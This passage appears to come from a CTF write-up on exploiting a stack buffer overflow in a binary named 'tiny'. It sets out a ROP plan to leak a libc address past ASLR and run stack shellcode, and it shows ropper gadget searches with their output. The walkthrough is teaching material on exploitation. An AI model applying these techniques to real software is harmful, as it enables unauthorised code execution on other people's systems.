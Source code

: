 We have overwritten RIP with our 0x424242424242 bytes.

<b>Plan</b> is:<br />
1. Find gadget for pop rdi; pop rsi; ret. <br />
2. Return to write@plt to leak read@got address so we can use that address from GOT to calculate base address of libc ( Remmber ASLR is ON).<br />
2. Find gadget to push RSP so we can execute out shellcode from stack. We don't need to overwrite system entry on GOT and return to that because NX is off.<br />
3. Send another payload containing out shellcode, push RSP and check if it gets exeuted<br />

To find gadgets, i've used ropper ( [Ropper @ github](https://github.com/sashs/Ropper) ), you can use whatever you want. 
Lets's find out which gadgets can we find inside tiny binary.
```sh
root@--name:/ctf/work# ropper --file tiny --search "% ?di; ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % ?di; ret

[INFO] File: tiny
0x00000000004011dd: pop rdi; ret;
```

In tiny i found only pop RDI; ret. And we need pop RDI; pop RSI; ret. So we have to chain them.<br />
Next on the list is pop RSI, and i find one which pops RSI, then pop R15 and returns. That's good enough, since we are gona put some trash in R15 because we don't need it.

```sh
root@--name:/ctf/work# ropper --file tiny --search "pop ?si"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop ?si

[INFO] File: tiny
.....
0x00000000004011db: pop rsi; pop r15; ret; 
```

Last one, push RSP, which we need for last stage of exploit, we are going to look for inside libc.so.6 which is downloaded from the server, because i couln't find one in tiny binary. <br />
<b>Note</b>: we will find offset to it, which needs to be added to libc base address later.
```sh
root@--name:/ctf/work# ropper --file libc.so.6 --search "push rsp"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 42%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: push rsp

[INFO] File: libc.so.6
......
0x0000000000023ad1: push rsp; ret; 
......
```
